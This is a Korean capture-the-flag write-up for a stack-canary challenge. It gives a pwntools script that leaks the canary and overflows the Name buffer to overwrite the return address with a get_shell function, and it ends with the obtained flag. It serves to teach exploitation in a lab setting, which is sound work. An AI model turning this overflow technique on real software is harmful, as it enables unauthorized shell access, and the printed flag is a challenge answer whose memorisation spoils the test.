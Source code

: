 ```
canary = u32(canary_leak)
print('canary : {}'.format(hex(canary)))

p.recvuntil('> ')
p.send('E')
p.recvuntil('Name Size : ')
p.sendline(str(100))
p.recvuntil('Name : ')

get_shell = 0x80486b9

payload = b'A' * 0x40
payload += p32(canary)
payload += b'A' * 8
payload += p32(get_shell)

p.send(payload)

p.interactive()
```
다음과 같이 익스플로잇 코드를 짰다. 

p 기능을 이용해 스택 카나리 값을 읽어 카나리를 복원한 뒤,

그 카나리를 페이로드에 넣어 스택이 깨지지 않게 유지한 채 Name 입력칸의 버퍼 오버플로우로

리턴 주소를 get_shell로 덮어 쉘을 얻게끔 코드를 작성하였다. 

<br>

</br> 

<img width="1280" height="509" alt="image" src="https://github.com/user-attachments/assets/be7042ab-3c89-4a40-a4b2-82d6ddb94136" />

<img width="1280" height="594" alt="image" src="https://github.com/user-attachments/assets/33a436f2-03e2-480f-b891-fc344fd3301c" />

해당 코드를 실행해보니, flag 값을 얻을 수 있었다. 


<br>

</br> 

```
DH{00c609773822372daf2b7ef9adbdb824}
```
